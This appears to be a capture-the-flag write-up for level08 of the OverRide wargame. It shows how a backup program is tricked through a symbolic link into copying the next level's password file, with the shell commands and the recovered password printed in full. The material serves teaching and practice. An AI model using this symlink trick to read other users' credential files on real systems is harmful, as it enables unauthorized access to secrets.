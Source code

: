 # Level08

This executable creates a backup of a file in `./backups/<file_name>`

By creating a link to the level09/.pass file we can easily create a backup of it

```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass bypass
level08@OverRide:~$ ./level08 bypass 
level08@OverRide:~$ cat ./backups/bypass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```